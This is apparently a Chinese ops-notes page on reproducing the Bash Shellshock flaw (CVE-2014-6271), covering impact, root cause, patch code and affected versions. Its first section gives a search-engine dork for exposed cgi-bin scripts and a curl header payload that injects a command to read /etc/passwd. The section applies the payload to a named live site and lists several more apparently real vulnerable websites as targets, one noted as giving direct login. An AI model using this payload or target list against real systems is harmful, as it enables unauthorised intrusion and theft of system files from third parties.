


# 破壳漏洞(CVE-2014-6271)复现

> GitHub 仓库源文件：[点击打开网页渲染版](https://github.com/ben2023niao/ben-ops-notes/blob/main/doc/md/201409240248-%E5%AE%89%E5%85%A8%E4%B8%8E%E5%A0%A1%E5%9E%92%E6%9C%BA%2B%E5%AE%89%E5%85%A8%E8%BF%90%E7%BB%B4%2BCVE%2BLinux-%E7%A0%B4%E5%A3%B3%E6%BC%8F%E6%B4%9E%28CVE-2014-6271%29%E5%A4%8D%E7%8E%B0.md)

真实验证方法

此方法适合互联网管理部门进行互联网普查等。

1)   以搜索引擎进行可能存在漏洞的网站检索，下面以google检索为例：

检索：[inurl:/cgi-bin/](http://inurl/cgi-bin/) filetype:sh

2)   将检索到的url进行提取，然后替换下面的“***替换URL***”

| curl -H 'x: () { :;};a=`/bin/cat /etc/passwd`;echo $a' '***替换URL***' -I |

| --- |

3)   如存在漏洞，便可复现模拟验证方法的结果，借此判断漏洞的范围及危害程度等；如不用搜索引擎，也可以进行构造路径的方式（例如：IP/cgi-bin/update.sh、IP/cgi-bin/admin.sh等），进行连接尝试，但这种方法会耗费大量的资源进行无用连接尝试。

谷歌搜索 [inurl:/cgi-bin/](http://inurl/cgi-bin/) filetype:sh

curl -H 'x: () { :;};a=`/bin/cat /etc/passwd`;echo $a' '<http://www.pnhigh.musin.de/cgi-bin/test.sh>' -I

其余漏洞站
<http://203.0.113.1/cgi-bin/status.sh>

<https://xformstest.org/cgi-bin/echo.sh>

<http://idchosting-support2.com/cgi-bin/sh/env.sh>

<https://www.altrom.com/cgi-bin/altmake.sh>  （直接就登录进去了）

<http://www.evolvingsolutions.com.au/pigeons/cgi-bin/startpgm.sh?pgm=PRPP0100&ASSOC=SAHPA&YEAR=2022&RACE_CODE=&WEBSITE=Y>  （**南澳大利亚信鸽协会赛鸽比赛结果**）

<https://oncoj.orinst.ox.ac.uk/cgi-bin/oncoj.sh>  （日本诗歌）

漏洞可能会带来的影响

1. 此漏洞可以绕过ForceCommand在sshd中的配置，从而执行任意命令；
2. 如果CGI脚本用Bash编写，则使用mod_cgi或mod_cgid的Apache服务器会受到影响；
3. DHCP客户端调用shell脚本来配置系统，可能存在允许任意命令执行；
4. 各种daemon和SUID/privileged的程序都可能执行shell脚本，通过用户设置或影响环境变量值，允许任意命令运行。

## 漏洞原理

目前的Bash使用的环境变量是通过函数名称来调用的，导致漏洞出问题是以“(){”开头定义的环境变量在命令ENV中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令。而其核心的原因在于在输入的过滤中没有严格限制边界，也没有做出合法化的参数判断。

在补丁中主要进行了参数的合法性过滤，补丁程序在/builtins/evalstring.c的parse_and_execute函数中进行了输入的command进行了合法性的边界检测，将代码注入的可能性排除。在排除中主要用到了flags的两次判断和command的一次类型匹配，为了能够flags判断准确，在补丁中预先定义了SEVAL_FUNCDEF、SEVAL_ONECMD两个标识作为判断依据。此漏洞进行的补丁更新有三处，主要进行输入的command进行过滤作用。

/builtins/common.h

| #define SEVAL_FUNCDEF 0x080         /* only allow function definitions */ #define SEVAL_ONECMD  0x100         /* only allow a single command */ |

| --- |

/builtins/evalstring.c

| if ((flags & SEVAL_FUNCDEF) && command->type != cm_function_def)         {           internal_warning ("%s: ignoring function definition attempt", from_file);           should_jump_to_top_level = 0;           last_result = last_command_exit_value = EX_BADUSAGE;           break;         } |

| --- |

/builtins/evalstring.c

| if (flags & SEVAL_ONECMD)         break; |

| --- |

      从阐述的漏洞原理可知，漏洞的根本原因存在于Bash的ENV命令实现上，因此漏洞本身是不能够直接导致远程代码执行的。如果达到远程代码执行的目的，必须要借助第三方服务程序作为媒介才能够实现，第三方服务程序也必须要满足众多条件才可以充当此媒介的角色。例如，CERT已验证第三方服务程序apache2便可充当此媒介，其CGI组件满足远程访问并调用Bash的ENV命令进行访问数据解析功能。

根据信息检索，本漏洞发现者为法国GNU/LINUX研究者Stéphane Chazelas，发现时间为2014年9月中旬，而披露时间为2014年9月24日。

表 1 漏洞发布厂商列表

| **发布厂商** | **时间** | **链接** |

| --- | --- | --- |

| **NVD** | 2014-09-242:48:04 PM | <http://web.nvd.nist.gov/view/vuln/search-results?query=CVE-2014-6271&search_type=all&cves=on> |

| **Securityfocus** | 2014-09-24 12:00AM | <http://www.securityfocus.com/bid/70103> |

| **exploit-db** | 2014-09-25 | <http://www.exploit-db.com/exploits/34765/> |

表 2 部分主要漏洞影响平台及版本

| **操作系统** | **版本** | **解决方案** |

| --- | --- | --- |

| **Red Hat Enterprise Linux** | 4 (ELS) | Red Hat Enterprise Linux 4 Extended Lifecycle Support - bash-3.0-27.el4.2 |

| 5 | Red Hat Enterprise Linux 5 - bash-3.2-33.el5.1Red Hat Enterprise Linux 5.6 Long Life - bash-3.2-24.el5_6.1Red Hat Enterprise Linux 5.9 Extended Update Support - bash-3.2-32.el5_9.2 |

| 6 | Red Hat Enterprise Linux 6 - bash-4.1.2-15.el6_5.1Red Hat Enterprise Linux 6.2 Advanced Update Support - bash-4.1.2-9.el6_2.1Red Hat Enterprise Linux 6.4 Extended Update Support - bash-4.1.2-15.el6_4.1 |

| 7 | Red Hat Enterprise Linux 7 - bash-4.2.45-5.el7_0.2 |

| **CentOS** | 5 | bash-3.2-33.el5.1 |

| 6 | bash-4.1.2-15.el6_5.1 |

| 7 | bash-4.2.45-5.el7_0.2 |

| **Ubuntu** | 10.04 | bash 4.1-2ubuntu3.1 |

| 12.04 | bash 4.2-2ubuntu2.2 |

| 14.04 | bash 4.3-7ubuntu1.1 |

| **Fedora** | 19 | bash-4.2.47-2.fc19 |

| 20 | bash-4.2.47-4.fc20 |

| 21 | bash-4.3.22-3.fc21 |

| **Debian** | 4.1-3 | 4.1-3+deb6u1 |

| 4.2+dfsg-0.1 | 4.2+dfsg-0.1+deb7u1 |

| 4.3-9 | 4.3-9.1 |

| **Amazon Linux AMI** |  | bash-4.1.2-15.19 |

| **Mac OS X** | 10.10 |  |

**注****3****：也可到****<http://ftp.gnu.org/pub/gnu/bash/>****进行下载。**
